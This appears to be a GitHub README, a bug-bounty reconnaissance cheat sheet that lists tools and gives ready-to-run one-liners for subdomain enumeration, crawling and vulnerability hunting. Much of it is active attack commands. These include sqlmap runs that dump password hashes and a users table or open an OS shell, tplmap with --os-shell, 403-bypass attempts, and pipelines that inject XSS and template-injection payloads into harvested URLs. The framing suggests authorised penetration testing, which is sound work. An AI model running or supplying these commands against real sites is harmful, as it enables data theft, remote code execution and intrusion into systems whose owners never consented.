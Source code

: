 ## Recon of Recon

## Credits

[OFJAAAH](https://github.com/OFJAAAH)<br>
[c4ng4c3ir0 ](https://github.com/c4ng4c3ir0)<br>

## Tools

[Subfinder](https://github.com/projectdiscovery/subfinder)<br>
[Sqlmap](https://github.com/sqlmapproject/sqlmap)<br>
[Katana](https://github.com/projectdiscovery/katana)<br>
[Gospider](https://github.com/jaeles-project/gospider)<br>
[Httpx](https://github.com/projectdiscovery/httpx-toolkit)<br>
[Qsreplace](https://github.com/tomnomnom/qsreplace)<br>
[Airixss](https://github.com/ferreiraklet/airixss)<br>
[Uro](https://github.com/s0md3v/uro)<br>
[Nuclei](https://github.com/projectdiscovery/nuclei)<br>
[Freq](https://github.com/takshal/freq)<br>
[Hakrawler](https://github.com/hakluke/hakrawler)<br>
[Findomain](https://github.com/Edu4rdSHL/findomain)<br>
[Anew](https://github.com/tomnomnom/anew)<br>
[WayBackUrls](https://github.com/tomnomnom/waybackurls)<br>
[gf](https://github.com/tomnomnom/gf)<br>
[waybackrobots](https://github.com/vodafon/waybackrobots)<br>
[Dalfox](https://github.com/hahwul/dalfox)<br>
[XssTrike](https://github.com/s0md3v/XSStrike)<br>
[Gau](https://github.com/lc/gau)<br>
[Subzy](https://github.com/PentestPad/subzy)<br>
[Whatweb](https://www.kali.org/tools/whatweb/)<br>
[Nikto](https://github.com/sullo/nikto/tree/master)<br>
[Tplmap](https://github.com/epinna/tplmap)<br>
[Parabellum](https://github.com/wtechsec/Parabellum-XSS-Scanner/tree/main)<br>
[FFUF](https://github.com/ffuf/ffuf)<br>
[Dirsearch](https://github.com/maurosoria/dirsearch)<br>
[FuzzingTemplates](https://github.com/projectdiscovery/fuzzing-templates/tree/main)<br>
[Byp4xx](https://github.com/Rizsyad/byp4xx)<br>
[Assetfinder](https://github.com/tomnomnom/assetfinder)<br>


###  Dorks. 

```bash
inurl:responsible disclosure program
inurl:vulnerability disclosure program
inurl:vulnerability program rewards
inurl:security report vulnerability
inurl:bugbounty reward program 
```


###  HTTP200. 

```bash
subfinder -d $(cat url) | httpx -silent -sc -t 1000 | anew http200;
```

###  WaybackRobots. 

```bash
cat http200 | waybackrobots -d $(cat url) -raw | anew wayROBOTS;
```

###  Sqlmap. 

```bash
findomain -t $(cat url) -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1 | anew sqlmap;

python sqlmap.py -u "www.exemplo.com?id=1" --batch --banner
python sqlmap.py -u "www.exemplo.com?id=1" --batch --passwords
python sqlmap.py -u "www.exemplo.com?id=1" --batch --dbs
python sqlmap.py -u "www.exemplo.com?id=1" --batch --tables -D testdb
python sqlmap.py -u "www.exemplo.com?id=1" --batch --dump -T users -D testdb
python sqlmap.py -u "www.exemplo.com?id=1" --batch --os-shell
```

###  Whatweb. 

```bash
whatweb $(cat url) | anew whatweb;
```


###  Subfinder. 

```bash
subfinder -d $(cat url) -silent -all | httpx -silent | anew subfinder;
```

###  SSTI. 

```bash
echo $(cat url) | httpx -silent | hakrawler -subs | grep "=" | qsreplace '{{7*7}}' | freq | anew ssti;
```


###  SubzyTakeOver. 

```bash
subzy run --targets subfinder | anew subzytakeover;
```


###  Katana crawling. 

```bash
cat subfinder | katana -d 5 -silent | grep -iE '\.js'| grep -iEv '(\.jsp|\.json)' | anew KatanaCrawling1;

cat subfinder | katana -d 5 -silent -em js,jsp,json | anew KatanaCrawling2;
```


###  Dalfox. 

```bash
sudo dalfox url https://testphp.vulnweb.com/listproducts.php?cat=
```

###  Parabellum. 

```bash
sudo python3 Parabellum-XSS-Scanner.py
```


###  Nikto. 

```bash
cd nikto/program
./nikto.pl -h http://www.example.com
```

###  Tplmap. 

```bash
python2.7 ./tplmap.py -u '<http://www.target.com/page?name=John*>' --os-shell
python2.7 ./tplmap.py -u "<http://192.168.56.101:3000/ti?user=*&comment=supercomment&link>"
python2.7 ./tplmap.py -u "<http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link>" --level 5 -e jade
```

###  Crt.sh. 

```bash
curl -s "https://crt.sh/?q=$(cat url)&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | httpx -title -silent | anew crtsh;
```

###  BYP4XX. 

```bash
python3 byp4xx.py --url https://$(cat url) --dir secret --header | anew byp4xxheader;
python3 byp4xx.py --url https://$(cat url) --dir secret --protocol | anew byp4xxprotocol;
python3 byp4xx.py --url https://$(cat url) --dir secret --port | anew byp4xxport;
python3 byp4xx.py --url https://$(cat url) --dir secret --method | anew byp4xxmethod;
python3 byp4xx.py --url https://$(cat url) --dir secret --encode | anew byp4xxencode;
python3 byp4xx.py --url https://$(cat url) --dir secret --all | anew byp4xxall;
```


###  XssTrike. 

```bash
sudo python3 xsstrike.py -u http://testphp.vulnweb.com/

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\=

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\= -f payforce.txt
```

### FuzzingTemplates.

```bash
nuclei -t fuzzing-templates -list allurls | anew fuzzingtemplates;
```

### Dirsearch.

```bash
sudo python3 dirsearch -u https://target.com | anew dirsearch;
```


###  Gau. 

```bash
gau $(cat url) | grep "\.js" | anew gau
```


###  Gospider. 

```bash
gospider -d 0 -s $(cat url) -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew gospider
```

###  FFUF. 

```bash
ffuf -w /usr/share/wordlists/wfuzz/general/big.txt -u https://$(cat url)/FUZZ -mc all -c -v | anew ffuf
```


###  Xss1. 

```bash
echo $(cat url) | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not' | anew xss1;
```



###  Xss2. 

```bash
echo $(cat url) | httpx -silent | katana -d 10 -silent | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss2;
```



###  Xss3. 

```bash
echo $(cat url) | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss3;
```


###  Xss4. 

```bash
gau $(cat url) | httpx -silent | qsreplace '<script>alert(1)</script>' | freq | egrep -v 'Not' | anew xss4;
```


###  OpenRedirect gf. 

```bash
echo $(cat url) | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew openRedirect
```


###  Nuclei. 

```bash
echo $(cat url) | subfinder -silent | httpx -p 80,443,81,300,591,593,832,981,1010,1311,1099,2082,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5108,5280,5281,5601,5800,6543,7000,7001,7396,7474,8000,8001,8008,8014,8042,8060,8069,8080,8081,8083,8088,8090,8091,8095,8118,8123,8172,8181,8222,8243,8280,8281,8333,8337,8443,8500,8834,8880,8888,8983,9000,9001,9043,9060,9080,9090,9091,9200,9443,9502,9800,9981,10000,10250,11371,12443,15672,16080,17778,18091,18092,20720,32000,55440,55672 | nuclei -severity low,medium,high,critical | anew nuclei
```

